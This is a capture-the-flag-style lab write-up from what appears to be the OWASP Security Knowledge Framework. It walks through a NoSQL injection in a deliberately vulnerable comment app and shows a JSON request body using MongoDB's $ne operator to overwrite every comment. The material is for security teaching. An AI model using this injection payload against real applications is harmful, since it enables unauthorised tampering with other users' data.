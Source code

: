 # KBID XXX - NoSQL

## Running the app

```
$ sudo docker pull blabla1337/nosql
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/nosql
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine. After installation, we go to the folder of the lab we want to practice "i.e /skf-labs/python/nosql/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to Contrast Security](../../.gitbook/assets/contrast-security-logo.jpg)

## Reconnaissance

First, we need to understand how the data is stored. NoSQL databases are often document-oriented, meaning that each record is stored as a document. This document can be in JSON, XML, or any other format.

Is important to understand the structure of the document in order to exploit a NoSQL injection. For example, a document might look like this:

```json
{
  "user": {
    "name": "Bob",
    "age": 25,
    "address": "123 Main St."
  }
}
```

In this example, the document is storing information about a user. We can see that there is a "name" field, an "age" field, and an "address" field.

The most popular NoSQL database is MongoDB, so the database being used is likely MongoDB. MongoDB stores data in JSON documents, so we can assume that the data is stored in a similar format to the example above.

Upon registering an account and logging in, the app has a comment section. Users can add and update comments.

![Comment section](../../.gitbook/assets/nosql-comment-section.png)

When we update a comment, we can observe that the application sends a PUT request to the `/comments` endpoint. The request body includes the text we entered and an ID.

```json
{
  "id": "a6f317162e2141d497bf97b7a3a06d4d",
  "text": "This is an updated comment"
}
```

We can use tools like Burp or ZAP to intercept the comment and add a nested property. This reveals that the app is storing the comment as a JSON document.

```json
{
  "id": "a6f317162e2141d497bf97b7a3a06d4d",
  "text": {
    "nested": "This is a nested property"
  }
}
```

![Intercepting Request](../../.gitbook/assets/nosql-intercepting.png)

If you open the developer tools in the browser and go to the Network tab, you can see that the app is making a GET request to the `/comments` endpoint. The response contains a list of comments with the nested property.

```json
[
  {
    "id": "a6f317162e2141d497bf97b7a3a06d4d",
    "text": {
      "nested": "This is a nested property"
    }
  }
]
```

![List of comments in the developer tools](../../.gitbook/assets/nosql-developer-tools.png)

This indicates that the field has not been sanitized correctly, allowing us to inject a NoSQL query.

## Exploitation

We can update a comment and then intercept the request. We can change the id to a MongoDB query using the $ne operator. This will update all documents where the id is not equal to the id we entered.

```json
{
  "id": {
    "$ne": -1
  },
  "text": "INJECTED"
}
```

![Updating all comments](../../.gitbook/assets/nosql-updating-all-comments.png)

After sending the request and refreshing the page, we can observe that the app updates all the comments with the text we entered.

![All comments updated](../../.gitbook/assets/nosql-all-comments-updated.png)

## Additional sources

[owasp.org | Testing for NoSQL Injection](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05.6-Testing_for_NoSQL_Injection)
